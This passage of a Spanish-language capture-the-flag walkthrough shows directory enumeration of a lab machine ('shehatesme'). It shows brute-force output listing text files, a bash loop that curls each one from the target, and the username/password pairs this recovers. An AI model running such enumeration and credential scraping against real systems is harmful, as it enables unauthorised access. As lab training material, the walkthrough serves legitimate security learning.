 ~~~bash
/art.txt              (Status: 200) [Size: 16]
/java.txt             (Status: 200) [Size: 16]
/network.txt          (Status: 200) [Size: 16]
/smilies.txt          (Status: 200) [Size: 16]
/airport.txt          (Status: 200) [Size: 16]
/secret.txt           (Status: 200) [Size: 16]
/procps.txt           (Status: 200) [Size: 16]
/pynfo.txt            (Status: 200) [Size: 16]
/lh2.txt              (Status: 200) [Size: 16]
/muze.txt             (Status: 200) [Size: 16]
/cymru.txt            (Status: 200) [Size: 16]
/alba.txt             (Status: 200) [Size: 16]
/wha.txt              (Status: 200) [Size: 16]
                                              
===============================================================
2022/11/25 16:22:06 Finished
===============================================================
~~~

Bien, ahora copio ese contenido en un fichero llamado "raw.txt" y me quedo solamente con los nombres de fichero: 

`cut -d " " -f1 < raw.txt | tee dict.txt `

Ahora creamos un pequeño script para que nos "lea" todos los TXT encontrados y nos los inserte en un fichero:

~~~bash
#!/bin/bash

while IFS= read -r line
do
   curl http://192.168.0.22/shehatesme$line >> curl.txt
done < dict.txt
~~~

Le damos permisos de ejecución: `chmod +x curl.sh` y lo ejecutamos ``./curl.sh``. Esto es lo que hemos obtenido:

~~~
❯ cat curl.txt
hidden1/passZZ!
yuijhse/hjupnkk
jhfbvgt/iugbnvh
jaime11/JKiufg6
john765/FDrhguy
maria11/jhfgyRf
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
mmnnbbv/iughtyr
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
smileys/98GHbjh
~~~